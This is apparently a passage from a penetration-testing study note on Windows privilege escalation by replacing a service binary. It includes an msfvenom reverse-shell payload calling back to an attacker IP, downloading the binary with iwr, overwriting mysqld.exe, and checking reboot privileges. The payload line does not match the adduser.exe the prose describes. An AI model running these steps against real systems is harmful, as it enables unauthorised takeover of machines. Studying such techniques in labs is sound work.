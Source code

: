 ```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f dll -o filepermservice.exe
```
### Infiltrating the Binary
Now that we've cross compiled `adduser.c` to our Windows binary `adduser.exe` we can transfer it to the victim machine. Again, we can do this with a [python](../../../coding/languages/python/python.md) web server and `iwr` to fetch it from the victim machine:
```powershell
PS C:\Users\dave> iwr -uri http://192.168.48.3/adduser.exe -Outfile adduser.exe
```
### Replacing the Binary
We can use `move` on the windows host to overwrite the original `mysqld.exe` service binary with our `adduser.exe` binary. Before overwriting, we should *create a copy* of the original `mysqld.exe` so we can restore it after we've successfully escalated our privileges:
```powershell
PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```
### Executing the Binary
To execute our malicious binary, we need to *restart the service* which we can do using the `net stop` command. **However** there's a chance that we (as `dave`) don't *have permission to stop or start services*:
```powershell
PS C:\Users\dave> net stop mysql
System error 5 has occurred.

Access is denied.
```
If this is the case, then we may be able to force it to restart by *rebooting the machine*. Before rebooting though, we should check if the service has `StartMode` set to `Auto`. We can check by using `Get-CimInstance` again and piping the output to `Select` and then `Where-Object` to narrow down the output:
```powershell
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

Name  StartMode
----  ---------
mysql Auto
```
Since `StartMode` is set to `Auto` that means the service *will restart when we reboot the machine.* **BUT** we also need to check if `dave` has permission to reboot the machine. We can check by using `whoami` with the `/priv` flag:
```powershell
PS C:\Users\dave> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```
In the output above, we're interested in `SeShutdownPrivilege`. It's enough to see that the privilege is listed in the output to know that `dave` can reboot the machine. If it wasn't listed at all, then we would have to wait for the user to reboot the machine *manually* (in other words, ignore that the `State` property reads `Disabled`-- it only indicates that the privilege is not currently enabled for the running process (`whoami`)).